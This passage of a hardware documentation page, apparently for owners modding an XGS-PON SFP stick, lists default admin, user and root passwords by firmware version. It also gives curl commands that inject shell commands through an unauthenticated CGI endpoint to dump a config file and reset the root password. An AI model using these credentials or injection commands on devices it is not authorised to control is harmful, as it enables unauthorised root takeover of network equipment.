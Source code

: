         ``` sh
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":simple-linux: Linux"

        !!! note "The following commands assume [Debian] or derivatives[^4]"

        ``` sh
        sudo apt-get install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

=== "Firmware v1.0.21"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | BR#22729%635e9 |
    | user     | user1234       |

=== "Firmware &lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | QsCg@7249#5281 |
    | user     | user1234       |

### Shell credentials

SSH must be enabled from the web UI at <https://192.168.11.1/html/main.html#service/servicecontrol>

=== "Firmware v1.0.21"

    The <ins>root</ins> password is undisclosed at this time, use the suggested exploit below to gain root privileges.

=== "Firmware &lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

??? bug "Exploit to temporarily change the root password"
    Run the following command(s) to temporarily change the root password to `root`.

    === ":material-microsoft: Windows"

        ``` sh
        curl.exe -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":simple-apple: macOS"


 [Architecture]: #architecture
 [WN25N01GW]: https://www.winbond.com/hq/product/code-storage-flash-memory/qspinand-flash/?__locale=en&partNo=W25N01GV
 [M02180]: https://www.macom.com/products/product-detail/M02180
 [Web Credentials]: #web-credentials
 [Shell credentials]: #shell-credentials
  [XSPU-P9T9R-NxCM]: https://detail.1688.com/offer/821866799456.html
  [Chinese Alibaba]: https://www.1688.com
  [EN-XGSFPP-OMAC-V2]: https://ecin.ca/custom-xgs-pon-sfp-stick-module-xgspon-ont-w-t-mac-function-mounted-on-sfp-package/
  [Global Alibaba]: https://www.alibaba.com
  [Flytec Computers]: https://flyteccomputers.com/halny-networks-hlx-sfpx
  [Debian]: https://www.debian.org/
[^1]: <https://www.bfw-solutions.com/en/gpon-family-141>
[^2]: <https://www.maxlinear.com/product/access/fiber-access/socs-for-optical-networking-units-onu/prx126>
[^3]: <https://en.wikipedia.org/wiki/Procfs>
[^4]: <https://www.debian.org/derivatives/>
[^5]: <https://en.wikipedia.org/wiki/Memory_Technology_Device>
[^6]: <https://en.wikipedia.org/wiki/UBIFS>
[^7]: <https://en.wikipedia.org/wiki/SquashFS>
[^8]: <https://www.superbuy.com>
[^9]: <https://www.pandabuy.com>
[^10]: <https://boxmatrix.info/wiki/Property:Falcon>
[^11]: [SFF-8472](https://members.snia.org/document/dl/25916)